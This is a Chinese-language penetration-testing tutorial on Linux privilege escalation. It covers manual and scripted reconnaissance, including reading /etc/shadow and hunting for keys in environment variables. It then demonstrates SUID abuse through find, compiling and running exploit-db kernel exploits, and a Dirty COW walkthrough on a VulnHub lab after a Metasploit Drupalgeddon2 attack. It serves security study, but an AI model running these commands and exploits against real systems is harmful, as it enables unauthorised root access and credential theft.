# Linux脏牛内核漏洞&SUID&信息收集


## Linux信息收集

手工收集

查看版本：

```bash
cat /etc/issue
cat /etc/*-release
```



查看内核版本

```bash
cat /proc/version
```



环境变量的密码（shell脚本查看有没有密码）和api密钥。

```bash
cat /etc/profile
```



查看那些服务在运行。

```bash
ps aux
```



查看安装了那些应用程序。

```bash
ls -alh /usr/bin/
```



查看计划任务。

```bash
ls -alh /var/spool/cron
```



信息收集总结：

1. 操作系统版本、内核

2. 环境变量可能存在的密码、api密钥

3. 有那些应用、那些服务、权限方面、配置方面、计划任务方面

4. 网络信息（那些与主机通信（进行内网渗透）、DNS/DHCP）

5. 敏感文件读取

   ```bash
   cat /etc/passwd
   cat /etc/group
   cat /etc/shadow
   ls -alh /var/mail/
   ```

6. 文件系统等等

### Linux 提权自动化脚本

主要是信息收集，和漏洞探针。

两个信息收集脚本：LinEnum，linuxprivchecker

两个漏洞探针脚本：linux-exploit-suggester，linux-exploit-suggester2

信息收集有什么用？漏洞探针又有什么用？

- 信息收集为后续提权做准备
- 主要用于内核提权，判定操作系统上可能存在的漏洞

信息收集/漏洞探针主要关注点：SUID，定时任务，可能漏洞，第三方服务应用等

#### LinEnum-Linux枚举及权限提升检查工具

主要检测以下几个大类的信息

- 内核和发行版发布详情
- 系统信息
- 用户信息
- 特权访问
- 环境
- 作业/任务
- 服务
- 一些web服务的版本信息
- 默认/弱凭证
- 搜索
- 平台/软件特定测试

用法

```bash
脚本先上传到目标服务器/tmp目录下（/tmp目录是临时目录，一般是可读写可执行的）
cd /tmp
chmod +x LinEnum.sh
./LinEnum.sh
```



#### linuxprivchecker-Linux 权限提升检查脚本

这个工具的执行需要Python环境。

使用Python2执行。

```bash
python2 linuxprivchecker.py # 直接执行
python2 linuxprivchecker.py -w -o linuxprivchecker.log # 输出到文件中
```



使用Python3执行

```bash
python3 -m linuxprivchecker -w -o linuxprivchecker.log
```



#### linux-exploit-suggester-Linux漏洞检测工具

脚本上传到目标服务器

```bash
chmod +x linux-exploit-suggester.sh
./linux-exploit-suggester.sh
```

会检测到当前系统可能存在的漏洞，返回信息比较多，存在误报。



这个就没有发现漏洞。

#### linux-exploit-suggester2-Linux漏洞检测工具

linux-exploit-suggester2的运行环境是perl，将脚本上传到目标服务器。

```bash
perl linux-exploit-suggester-2.pl
或者
chmod +x linux-exploit-suggester.sh
./linux-exploit-suggester.sh
```



这个也没有发现漏洞，但是这个工具比上面的工具要好很多，基本不会误报。

## linux提权suid提权

SUID：`set Users id`；`SGID`：`set Group id`（通过设置`SUID`和`SGID`来给用户操作文件的一些权限（`Linux`都是文件））

`chmod u+s`给与了`suid`、`chmod u-s`删除了`suid`。

本来是普通用户执行普通程序，但是一旦给了程序suid权限，程序在运行中就会以root权限执行，从而提升权限。

**SUID（Set User ID）是一种授予文件的权限类型，允许用户以其所有者的权限执行文件。**例如，ping实用程序需要root权限才能打开网络套接字，但它也需要由标准用户执行，以验证与其他主机的连接。通过将ping程序标记为SUID（所有者为root），只要标准用户执行ping程序，便会以root特权 执行ping。

举例：xxx.sh原来的权限是-rwxr-xr-x，当执行chmod u+s xxx.sh命令后，它的权限就会变成-rwsr-xr-x。此时，即使你用普通用户身份运行xxx.sh文件，实际上它却是以root权限运行的。 

将LinEnum赋予本地用户（u）以超级用户权限（s），即普通用户以root权限运行文件（跨用户），其中三个不同的权限对应：所有者权限，所属组权限，其他人权限（读、写、执行） 



提权过程：探针是否有SUID（手工或脚本）-->特定SUID利用-->利用成功。

SUID可以让调用者以文件拥有者的身份运行该文件，所以我们利用SUID提权的思路就是运行root用户所拥有的SUID的文件，那么我们运行该文件的时候就得获得root用户的身份了。

**可以允许权限提升的已知Linux可执行文件包括：**

- Nmap
- Vim
- find
- Bash
- mv
- More
- Less
- Nano
- cp

看这些命令有没有配置root权限



使用冰蝎，添加后门，并查看权限。



msf+冰蝎配合反弹shell，msf的参数必须与冰蝎中的一致。



反弹成功，取得一个web权限



探针是否有SUID

1. 脚本

   上传LinEnum.sh文件。

   

   

   执行，发现了一些拥有suid文件。

   

   并从中找到了可以用于提权的find。由于find被配置为使用 SUID 权限运行，那么所有通过 find 执行的命令都将以 root 身份执行。

   

2. 手工

   以下命令可以发现系统上运行的所有SUID可执行文件。

   更具体地说，这些命令将尝试在用户root拥有的`/`目录中查找具有SUID权限位的文件，打印它们，然后将所有错误重定向到`/dev/null`，以便列出用户有权访问的二进制文件。

   ```bash
   #以下命令将尝试查找具有root权限的SUID的文件
   find / -user root -perm -4000 -print 2>/dev/null
   find / -perm -u=s -type f 2>/dev/null # Dabian系可以使用
   find / -user root -perm -4000 -exec ls -ldb {} \;
   ```

   

执行以下命令，确认以root身份运行。即 当我们使用 find pentestlab -exec <命令> \; 的形式运行命令时，使用的是root身份。

```bash
touch 创建的文件名
find 创建的文件名 -exec whoami \;
```



接下来，执行以下命令，以root身份反弹shell。



然后本地连接端口，但是没有获取到root权限。



## Linux提权本地配合内核漏洞



提权过程：连接-->获取可利用漏洞-->下载并上传exp-->编译exp-->给权限执行-->成功。

连接上去之后，id查看hack用户的uid为1001，属于普通用户。



上传漏洞探针linux-exploit-suggester2并执行，发现了3个可能被利用的漏洞。



尝试利用漏洞CVE-2017-16995。

上传exp。

```bash
wget  http://www.exploit-db.com/exploits/45010
```



下载失败了，那就手动下载，再上传。

```http
https://www.exploit-db.com/download/45010 # 将exploits修改位download
```

将`45010.c`文件上传至服务器的`/tmp/`目录下，因为上传至别的目录可能没有权限。

然后对上传的exp进行编译。

```bash
gcc 45010.c -o 45010 # 进行编译
chmod +x 45010 # 赋予执权限
./45010 # 执行
id # 查看权限
```



找到`key.txt`，`key.txt`在根目录下。



至此提权成功。

## linux提权脏牛内核漏洞

脏牛：`dirtycow`

漏洞范围：Linux kernel >= 2.6.22（2007年发行，到2016年10月18日才修复）

危害：低权限用户利用该漏洞可以在众多Linux系统上实现本地提权

简要分析：该漏洞具体为，get_user_page内核函数在处理Copy-on-Write(以下使用COW表示)的过程中，可能产出竞态条件造成COW过程被破坏，导致出现写数据到进程地址空间内只读内存区域的机会。修改su或者passwd程序就可以达到root的目的。

用到VulnHUB的靶机：[Lampião: 1 ~ VulnHub](https://www.vulnhub.com/entry/lampiao-1,249/)

内核提权整个过程：vulnhub靶机-探针目标-CMS漏洞利用-脚本探针提权漏洞-利用内核提权

内核漏洞提权过程：寻找可用exp-下载exp-上传exp到/tmp-编译exp-执行（无权限用chmod）

探针目标，先ipconfig查看自己的ip地址。



知道自己的ip地址之后，使用Nmap扫描整个网段，然后发现一个80的端口，可能是一个web服务。



打开对应的Web服务，确实存在一个网页，但是目前情况来看所得到的已知信息太少了，需要继续进行信息收集。



然后对80端口所在的目标IP进行全端口扫描，又扫描出来一个1898端口。



打开看一下，发现是一个web入口。


观察页面，将页面拉到最下面，发现信息，CMS为Drupal


网上搜索查找Drupal这个CMS，或者直接使用Metasploit进行搜索。

```bash
msfconsole
search Drupal
```

找到了对应Drupal这个CMS的Payload。



```bash
use exploit/unix/webapp/drupal_drupalgeddon2 # 设置payload
set rhost 192.168.76.141 # 目标的IP地址
set rport 1898 # 目标的端口
exploit # 进行攻击
```



攻击成功，拿到web权限。



上传漏洞探针脚本，并且重命名为`exp.sh`

```bash
upload /root/linux-exploit-suggester.sh  /tmp/name.sh
```



创建shell窗口，执行探针脚本。



发现脏牛漏洞



可以通过脚本给出的URL直接下载exp（缺点是下载后文件名字就是40611，需要手动修改后缀进行后续的执行）。

```bash
wget https://www.exploit-db.com/download/40611
```

下载exp。



因为下载的exp没有后缀，没有办法判断是什么文件，所以我们进行查看，发现下载的exp发现是c语言文件。



尝试编译，但编译失败。



这里我们从GitHub上下载一个exp，上传exp到目标服务器。

```http
https://github.com/gbonacini/CVE-2016-5195
```



编译，执行，成功修改root密码，但是这个密码是临时的。

```bash
g++ -Wall -pedantic -o2 -std=c++11 -pthread -o drow drow.cpp -lutil
# 当然也可以本地编译出exp后在上传
```



这个时候，我们需要使用python创建一个交互式的shell，在对这个生成的exp进行在执行，这样才能够进行交互拿到权限。

```bash
python -c 'import pty; pty.spawn("/bin/bash")' # 创建shell
./dcow # 执行exp
```



成功拿到flag，当然这里可以以root创建一个新用户，加入root用户组，然后登录靶机。
